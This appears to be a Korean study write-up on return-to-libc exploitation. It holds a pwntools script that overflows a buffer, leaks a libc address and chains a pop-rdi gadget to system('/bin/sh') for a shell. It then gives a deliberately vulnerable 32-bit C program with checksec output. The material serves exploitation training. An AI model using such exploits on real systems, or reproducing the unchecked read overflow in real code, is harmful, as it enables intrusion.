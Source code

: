```python

payload=b''

payload+=b'a'*(buf_size+sfp_size)
p.sendafter(b'BOF1\n',payload)

p.recvuntil(payload)
libc_base=u64(p.recv(6)+b'\x00'*2)-libc_start_main

payload=b''
payload+=b'a'*(buf_size+sfp_size)
payload+=p64(libc_base+libc_pop_rdi_ret_gdt)
payload+=p64(binsh)
payload+=p64(main_ret_addr)
payload+=p64(libc_base+libc_system)

p.sendafter(b"BOF2\n",payload)

p.interactive()
```


# 예제2(32bit)

- 문제 코드
```c
#include <stdio.h>
#include <stdlib.h>

char binsh[] = "/bin/sh";

int main(void){
    char buf[50];
    printf("system addr: %p\n", &system);
    printf("binsh addr: %p\n", &binsh);

    printf("BOF\n");
    read(0, buf, 200);

    return 0;
}
```

- 분석
```sh
┌──(foo1㉿main-server)-[~/Desktop/kknock/Pwnable/rtl_32]
└─$ file rtl_32
rtl_32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=56fe195fde6d9e46c673ded49b1acab7265ca416, for GNU/Linux 3.2.0, not stripped

┌──(foo1㉿main-server)-[~/Desktop/kknock/Pwnable/rtl_32]
└─$ checksec ./rtl_32
[*] '/home/foo1/Desktop/kknock/Pwnable/rtl_32/rtl_32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
